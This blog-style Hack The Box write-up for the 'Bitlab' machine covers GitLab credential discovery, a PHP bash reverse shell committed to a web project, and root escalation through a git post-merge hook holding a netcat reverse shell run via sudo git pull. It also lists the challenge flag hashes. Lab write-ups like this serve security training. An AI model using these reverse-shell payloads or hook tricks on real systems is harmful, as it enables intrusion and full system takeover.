 ```yaml
---
title: "Bitlab Writeup"
date: 2019-04-12 14:10:00 +0800
categories: [Pentesting]
tags: [htb]
---
```


## Enumeration

Beginning with a simple scan of the first 10000 ports

![Bitlab/Screen_Shot_2019-12-04_at_3.00.14_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_3.00.14_PM.png)

Nothing crazy. We see a web server, we go on the web. It is a gitlab server.

![Bitlab/Screen_Shot_2019-12-04_at_3.13.52_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_3.13.52_PM.png)

Normally I would run gobuster on it but I wanted to explore the site manually. On the bottom of the site, I clicked on the help link and another link showed up. That also lead to a list of links.

![Bitlab/Screen_Shot_2019-12-04_at_3.13.01_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_3.13.01_PM.png)

Gitlab Login looks interested. The link didn't go anything. All it had was obfuscated javascript. If we beautifier and decode the hex code, we are presented with a username and password.

![Bitlab/Screen_Shot_2019-12-04_at_4.22.12_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_4.22.12_PM.png)

decoded:

![Bitlab/Screen_Shot_2019-12-04_at_4.26.59_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_4.26.59_PM.png)

After login, we have two projects to explore. The Deployer project didn't really spark me as the Profile project. The profile project seems to be the source code of the developer's website. First thing I did was upload a php reverse shell at the bottom of index.html. Commit the changes and merge it to master

    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.32/1234 0>&1'");

Going to `[http://10.10.10.114/profile](http://10.10.10.114/profile)` activates the shell

![Bitlab/Screen_Shot_2019-12-04_at_4.47.25_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_4.47.25_PM.png)

## Privilege Escalation

I like to see if my current user can run any command as root or another user. And for us, we can sudo git pull.

![Bitlab/Screen_Shot_2019-12-04_at_4.53.11_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_4.53.11_PM.png)

 I have been working gitlab for a while now. I got to know about git hooks. Git hooks are basically scripts that can be executed depending on what git command you used. Some of them are post-merge, pre-commit and so much more. Take a look at this [article](https://www.atlassian.com/git/tutorials/git-hooks) and this [one](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) if you are interested in learning more about it. The exploit I used was similar to a project I was working on when learning about git. Here is the [link](https://github.com/emmaunel/CaptainHook) to it.

For this box, I used post-merge for my attack. Post merge is executed after a git merge has been done.

Start by copying the `.git` from the `/var/www/html/profile` to `/tmp/`. Now we echo a netcat reverse shell into post-merge in `/tmp/.git`. Next, we make a change to the README.md on the webserver and merge the changes. In your shell, do sudo git pull and that should give a root shell(make sure you are listening). This code snippet  below is exactly what explained in words:

    www-data@bitlab:/var/www/html/profile$ cp -R .git /tmp/
    www-data@bitlab:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 1337 >/tmp/f" > .git/hooks/post-merge
    www-data@bitlab:/tmp$ chmod 777 .git/hooks/post-merge
    **Make a change to README.md on the web**
    www-data@bitlab:/tmp$ sudo /usr/bin/git pull

Here's our listener with a root shell.

![Bitlab/Screen_Shot_2019-12-04_at_5.37.35_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_5.37.35_PM.png)

Obviously this is an unintended way (jumping from www-data to root). I believe the intended way is to find some creds for the SQL database to get the user' s password. And from there ...(come back)

`User: 1e3fd81ec3aa2f1462370ee3c20b8154`

`Root: 8d4cc131757957cb68d9a0cddccd587c`